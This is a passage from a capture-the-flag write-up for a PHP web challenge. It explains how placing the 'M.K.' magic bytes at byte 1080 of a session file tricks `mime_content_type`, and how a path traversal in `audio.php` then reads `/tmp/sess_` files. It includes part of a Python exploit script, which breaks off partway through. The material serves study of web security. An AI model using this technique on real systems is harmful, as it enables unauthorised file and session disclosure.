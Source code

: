 Let's take the first MIME type as an example:

```ini
# Real Audio (Magic .ra\0375)
0   belong      0x2e7261fd  audio/x-pn-realaudio
```

The first column is `0`, which means PHP will start determine this MIME type at byte number `0` (Which is starting from the first byte).

The third column is the content that PHP will try to match. In this case it's hex `0x2e7261fd`.

The reason why it's hex `0x2e7261fd`, is because it's this file's signature. File signature can be used to identify or verify the content of a file. Besides from file signature, it also called "Magic number" or "Magic bytes".

So, in the above case, if PHP found the file magic number `0x2e7261fd` is starting from byte number `0`, it returns MIME type `audio/x-pn-realaudio`.

Hmm... I wonder if there's any **magic numbers are not starting from byte number `0`**.

Yes it does!

In [line 70 - 71](https://github.com/waviq/PHP/blob/master/Laravel-Orang1/public/filemanager/connectors/php/plugins/rsc/share/magic.mime#L70-L71), there's a MIME type called `audio/x-mod`, and it's magic numbers start from **byte number `1080`**:

```ini
#audio/x-screamtracker-module
1080    string  M.K.        audio/x-mod
```

Nice! We found it! That being said, we can trick PHP function `mime_content_type` to return a MIME type that starts with `audio`!!

## Exploitation

Armed with above information, our exploitation steps are:

1. Append the `audio/x-screamtracker-module` magic number `M.K.` at byte number `1080` via GET route `/` with `theme` parameter
2. Path traversal to read our session file at `/tmp/sess_<PHPSESSID>` via GET route `/audio.php` with `f` parameter

Let's write a solve script to get the flag!

```python
#!/usr/bin/env python3
import requests
import re
from threading import Thread

PHP_SESSION_NAME = 'PHPSESSID'
PHP_SESSION_FILE_LOCATION = '/tmp/sess_'
MAGIC_BYTE_NUMBER = 1080
MAGIC_NUMBER = 'M.K.'
PATH_TRAVERSAL = '../../../../../../../'
FLAG_REGEX = re.compile('(DUCTF\{.*?\})')

def appendMagicNumber(baseUrl, offset):
    sessionFilePrefixLength = len('flag|s:7:"DUCTF{}";theme|s:1337:"";')
    appendedSessionFileContent = 'A' * (MAGIC_BYTE_NUMBER - sessionFilePrefixLength - offset) 
    appendedSessionFileContent += MAGIC_NUMBER

    themeParameter = f'?theme={appendedSessionFileContent}'
    url = f'{baseUrl}{themeParameter}'
    sessionCookie = requests.get(url).cookies.get(PHP_SESSION_NAME)
    return sessionCookie

def getFlag(baseUrl, sessionCookie, offset):
```